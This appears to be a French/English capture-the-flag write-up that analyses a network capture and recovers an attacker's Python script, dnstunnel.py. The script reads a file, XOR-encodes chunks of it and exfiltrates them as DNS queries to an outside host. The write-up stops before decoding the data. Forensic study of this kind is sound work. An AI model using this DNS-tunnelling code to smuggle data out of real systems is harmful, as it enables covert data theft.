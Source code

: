 # Old EXFIL but Gold

### SUBJECT

Nous soupçonnons une exfiltration de données.  
Nous avons capturé des données réseaux, à vous d'extraire le lien pour la prochaine étape !

We suspect data exfiltration.  
We have captured network data, it's up to you to extract the link for the next step !

### EXPLORING THE .PCAP
On the challenge page, we download a `.pcap` file.  
First reflex, open it in Wireshark in order to inspect its content.  

![ch02 Wireshark](/images/ch02-wireshark.png)

This file contains a record of network frames at a certain time.  
We can quickly isolate 3 different protocols:  
- TCP
- HTTP
- DNS

These protocols will be useful for us because their functions and uses allow certain processes that we will discover later.  

The HTTP packets being in clear, we filter them and analyze their contents.  

![ch02 http filter](/images/ch02-httpfilter.png)

We can observe that in the infos, there are two requests of type `GET` sending from the source, then completed by the various TCP packets containing the response, followed (if all went well) by an HTTP 200 OK packet from the destination.
The first request ask for the page `/index.html`, constituted as below (after extracting the source code contained in clear in the request):

> Code

![ch02 index.html code](/images/ch02-indexhtmlraw.png)

> Rendering

![ch02 index.html](/images/ch02-indexhtml.png)

Given the following request, we can imagine that the attacker then downloaded the `dnstunnel.py` file.  
The advantage of HTTP being for us that the request is in clear, we have the possibility of seeing the content of this file and therefore the source code.  

![ch02 python code](/images/ch02-pythoncode.png)

We extract it and paste it into our favorite IDE to inspect the code and continue our journey.  

### READING AND UNDERSTANDING CODE

Here is the code we have in our hands :  

```python
#!/usr/bin/python3 
# I have no idea of what I'm doing 
 
#Because why not! 
import random 
import os 
 
f = open('data.txt','rb') 
data = f.read() 
f.close()

print("[+] Sending %d bytes of data" % len(data)) 

#This is propa codaz 
print("[+] Cut in pieces ... ") 

def encrypt(l): 
    #High quality cryptographer! 
    key = random.randint(13,254) 
    output = hex(key)[2:].zfill(2)
    for i in range(len(l)): 
        aes = ord(l[i]) ^ key 
        #my computer teacher hates me 
        output += hex(aes)[2:].zfill(2) 
    return output 

def udp_secure_tunneling(my_secure_data): 
    #Gee, I'm so bad at coding 
    #if 0: 
    mycmd = "host -t A %s.local.tux 172.16.42.222" % my_secure_data 
    os.system(mycmd) 
    #We loose packet sometimes? 
    os.system("sleep 1") 
    #end if 

def send_data(s): 
    #because I love globals 
    global n 
    n = n+1 
    length = random.randint(4,11) 
    # If we send more bytes we can recover if we loose some packets? 
    redundancy = random.randint(2,16) 
    chunk = data[s:s+length+redundancy].decode("utf-8") 
    chunk = "%04d%s"%(s,chunk) 
    print("%04d packet --> %s.local.tux" % (n,chunk)) 
    blob = encrypt(chunk) 
    udp_secure_tunneling(blob) 
    return s + length 
 
cursor = 0 
n=0 
while cursor<len(data): 
    cursor = send_data(cursor) 
 
#Is it ok? 
```

_Continued write-up tomorrow, 'going to sleep.._
